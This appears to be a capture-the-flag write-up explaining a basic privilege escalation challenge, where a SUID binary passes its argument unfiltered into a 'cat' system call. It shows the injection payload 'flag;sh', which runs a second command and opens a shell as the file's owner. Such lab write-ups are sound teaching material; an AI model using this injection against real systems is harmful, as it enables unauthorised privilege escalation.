 This is a basic Privilege Escalation challenge that exploits a file with the SUID bit and a Command Injection vulnerability.

## Challenge Overview
This is a basic Privilege Escalation challenge that exploits a file with the SUID bit and a Command Injection vulnerability.

## Analysis

### SUID Bit
- The `ls -l chall` command reveals the file has `-rwsr-xr-x` permissions
- Owned by the user `dream`
- The `s` in permissions indicates the SUID bit is set
- When executed, the program runs with `dream`'s permissions (euid = dream, ruid = chall)

### Command Injection
- The program takes `argv[1]` and passes it directly to `system("cat %s")`
- No input filtering is performed
- We can use semicolon (`;`) to inject additional commands

## Exploitation

1. **SSH and Gather UIDs**
    ```bash
    chall@localhost:~$ id chall
    uid=1000(chall) gid=1000(chall) groups=1000(chall)
    chall@localhost:~$ id dream
    uid=2123(dream) gid=1001(dream) groups=1001(dream)
    ```
    - Found ruid: `1000`
    - Found euid: `2123`

2. **Execute Payload**
    ```bash
    chall@localhost:~$ ./chall "flag;sh"
    Your ruid :
    1000
    Your euid :
    2123
    Your ruid : 2123 Your euid : 2123
    DH{*******}
    ```
    - Payload `flag;sh` injects a command after `cat`
    - Program executes `cat flag;sh`, displaying the flag
    - We get a shell with `dream`'s privileges